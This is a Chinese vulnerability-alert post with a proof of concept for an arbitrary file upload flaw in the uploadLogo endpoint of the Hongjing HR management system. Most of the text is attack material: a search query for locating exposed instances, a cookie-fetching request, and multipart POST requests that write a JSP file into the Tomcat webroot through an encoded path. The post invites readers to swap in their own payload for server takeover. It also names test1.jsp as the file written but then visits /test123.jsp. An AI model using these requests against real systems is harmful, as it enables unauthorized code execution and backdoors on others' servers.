#  [含POC]宏景人力资源信息管理系统uploadLogo存在任意文件上传漏洞   
原创 漏洞预警机器人  安全光圈   2024-11-09 14:16  
  
# [含POC]宏景人力资源信息管理系统uploadLogo存在任意文件上传漏洞  
  
免责声明：本文内容为机器人搜集最新漏洞及POC分享，仅供技术学习参考，请勿用作违法用途，任何个人和组织利用此文所提供的信息而造成的直接或间接后果和损失，均由使用者本人负责，与作者无关！！！  
## 漏洞名称  
  
宏景人力资源信息管理系统uploadLogo存在任意文件上传漏洞  
## 漏洞描述  
  
宏景人力资源信息管理系统uploadLogo存在任意文件上传漏洞，可通过该漏洞在服务器端任意执行代码，写入后门，获取服务器权限，进而控制整个 web 服务器。  
## hunter语句  
```
app.name="宏景 HCM"
```  
## POC  
  
1、获取cookie  
```
GET /module/system/qrcard/mobilewrite/qrcardmain.jsp HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/g1X9cMsc6D3jFHAAaJwrESXYCgMpicDm67qJUZV3MTH0XM1Yw5EuFcsOH1xfX0ibterk90rDuAlRfUiaUBe8es3ng/640?wx_fmt=png&from=appmsg "")  
  
  
2、获取上传路径  
```
POST /sys/cms/uploadLogo.do?b_upload=upload&isClose=2&type=1 HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:108.0) Gecko/20100101 Firefox/108.0
Cookie: JSESSIONID=3199B98D03F1834F83CDAF45EA079D13
Content-Type:multipart/form-data; boundary=----WebKitFormBoundaryfjKBvGWJbG07Z02r

------WebKitFormBoundaryfjKBvGWJbG07Z02r
Content-Disposition: form-data; name="path"


------WebKitFormBoundaryfjKBvGWJbG07Z02r
Content-Disposition: form-data; name="lfType"

0
------WebKitFormBoundaryfjKBvGWJbG07Z02r
Content-Disposition: form-data; name="logofile"; filename=""
Content-Type: image/gif

<%= "bttest1" %>
------WebKitFormBoundaryfjKBvGWJbG07Z02r
Content-Disposition: form-data; name="twoFile"; filename=""
Content-Type: image/gif

<%= "bttest1" %>
------WebKitFormBoundaryfjKBvGWJbG07Z02r--
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/g1X9cMsc6D3jFHAAaJwrESXYCgMpicDm6Jpo2Rmg9lwaHWiaZibCtfRr95fpVGJEv4YRXzzI3SAovXJiaf5hlc5nhA/640?wx_fmt=png&from=appmsg "null")  
  
  
3、文件上传  
  
上传数据包自行修改  
```
POST /sys/cms/uploadLogo.do?b_upload=upload&isClose=2&type=1 HTTP/1.1
Host: 1.1.1.1:7000
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:108.0) Gecko/20100101 Firefox/108.0
Cookie: JSESSIONID=163CC9FFC3CAAEAFCF07F29B294E99F0
Content-Type:multipart/form-data; boundary=----WebKitFormBoundaryfjKBvGWJbG07Z02r

------WebKitFormBoundaryfjKBvGWJbG07Z02r
Content-Disposition: form-data; name="path"

D~3a~5cTomcat~39~5cwebapps~5cROOT~5ctest1.jsp
------WebKitFormBoundaryfjKBvGWJbG07Z02r
Content-Disposition: form-data; name="lfType"

0
------WebKitFormBoundaryfjKBvGWJbG07Z02r
Content-Disposition: form-data; name="logofile"; filename=""
Content-Type: image/gif

<%= "bttest1" %>
------WebKitFormBoundaryfjKBvGWJbG07Z02r
Content-Disposition: form-data; name="twoFile"; filename=""
Content-Type: image/gif

<%= "bttest1" %>
------WebKitFormBoundaryfjKBvGWJbG07Z02r--
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/g1X9cMsc6D3jFHAAaJwrESXYCgMpicDm6MA4Yb5JeS8Po1pLSTG8z6oCluB2C7eQicm2bWtQdL6F2K7hFs7WowrA/640?wx_fmt=png&from=appmsg "null")  
  
  
4、访问/test123.jsp  
  
![](https://mmbiz.qpic.cn/mmbiz_png/g1X9cMsc6D3jFHAAaJwrESXYCgMpicDm6xVP8LCuCiaepoOrxYp6JP4oeaEjCIkibjjvonp8XwbVGVTuelKib5anvg/640?wx_fmt=png&from=appmsg "")  
  
  
  
